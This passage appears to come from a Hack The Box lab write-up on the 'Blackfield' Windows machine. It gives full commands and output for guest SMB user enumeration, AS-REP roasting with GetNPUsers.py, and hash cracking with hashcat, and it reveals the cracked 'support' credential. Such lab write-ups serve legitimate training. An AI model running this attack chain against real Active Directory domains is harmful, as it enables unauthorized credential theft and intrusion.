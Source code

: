 ```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows]
└─$ netexec smb 10.10.10.192 -u 'guest' -p '' --rid-brute
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\guest:
...SNIP...
SMB         10.10.10.192    445    DC01             1103: BLACKFIELD\audit2020 (SidTypeUser)
SMB         10.10.10.192    445    DC01             1104: BLACKFIELD\support (SidTypeUser)
SMB         10.10.10.192    445    DC01             1413: BLACKFIELD\svc_backup (SidTypeUser)
SMB         10.10.10.192    445    DC01             1414: BLACKFIELD\lydericlefebvre (SidTypeUser)
...SNIP...
```

#### Shell as svc_backup
###### AS-REP roasting
Now that we have a valid list of usernames, we can attempt to check and perform AS-REP roasting. I use **GetNPUsers.py** for this. Found the AS-REP hash for user `support`.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows]
└─$ GetNPUsers.py BLACKFIELD.local/ -usersfile valid_users.list -dc-ip 10.10.10.192 -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

/home/chronopad/.local/bin/GetNPUsers.py:163: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:fafb8eb6bd898ff74a1ea009dfd54656$64ca069a01cdba05e22742828e95bb3ff5b61b4ea2ddc0d86865f907e9defc43d983dbd64cd4125f872761d465527bda41a982c51897d8d8f9e600c8a80ca8aa8c033a5f7f39441e6d47d22d4b209e05dde4491d6a1a25e9125fb377134d71ae2fc1b7129c7586946841f3f9b3d2704b3297a967aa7e85e86ca8300503e1ce84a310a17915a7db21c5f5736c55f2ed22cc24bb1bbf963ed9a1ed33143c5eae33dd9ffc97cea8aa4ef5edc85d837980877eb7c0f20d43fb9e1853ba3373988c4d844a57e51c6aefb911a4f1e9a386c91a41bd84ef0324d03fd8e737b0b2b59129d5075c6d248457ef3dfb73152a812e542dc4fa4a
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lydericlefebvre doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Let's identify the hashcat mode for the hash with **haiti**, then crack the hash using **hashcat**. Obtained the credential `support:#00^BlackKnight`.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows]
└─$ haiti '$krb5asrep$23$support@BLACKFIELD.LOCAL:fafb8eb6bd898ff74a1ea009dfd54656$64ca069a01cdba05e22742828e95bb3ff5b61b4ea2ddc0d86865f907e9defc43d983dbd64cd4125f872761d465527bda41a982c51897d8d8f9e600c8a80ca8aa8c033a5f7f39441e6d47d22d4b209e05dde4491d6a1a25e9125fb377134d71ae2fc1b7129c7586946841f3f9b3d2704b3297a967aa7e85e86ca8300503e1ce84a310a17915a7db21c5f5736c55f2ed22cc24bb1bbf963ed9a1ed33143c5eae33dd9ffc97cea8aa4ef5edc85d837980877eb7c0f20d43fb9e1853ba3373988c4d844a57e51c6aefb911a4f1e9a386c91a41bd84ef0324d03fd8e737b0b2b59129d5075c6d248457ef3dfb73152a812e542dc4fa4a'
Kerberos 5 AS-REP etype 23 [HC: 18200] [JtR: krb5asrep]

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows]
└─$ echo '$krb5asrep$23$support@BLACKFIELD.LOCAL:fafb8eb6bd898ff74a1ea009dfd54656$64ca069a01cdba05e22742828e95bb3ff5b61b4ea2ddc0d86865f907e9defc43d983dbd64cd4125f872761d465527bda41a982c51897d8d8f9e600c8a80ca8aa8c033a5f7f39441e6d47d22d4b209e05dde4491d6a1a25e9125fb377134d71ae2fc1b7129c7586946841f3f9b3d2704b3297a967aa7e85e86ca8300503e1ce84a310a17915a7db21c5f5736c55f2ed22cc24bb1bbf963ed9a1ed33143c5eae33dd9ffc97cea8aa4ef5edc85d837980877eb7c0f20d43fb9e1853ba3373988c4d844a57e51c6aefb911a4f1e9a386c91a41bd84ef0324d03fd8e737b0b2b59129d5075c6d248457ef3dfb73152a812e542dc4fa4a' > support.asrep

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows]
└─$ hashcat -m 18200 support.asrep ~/Arsenal/wordlists/rockyou.txt
```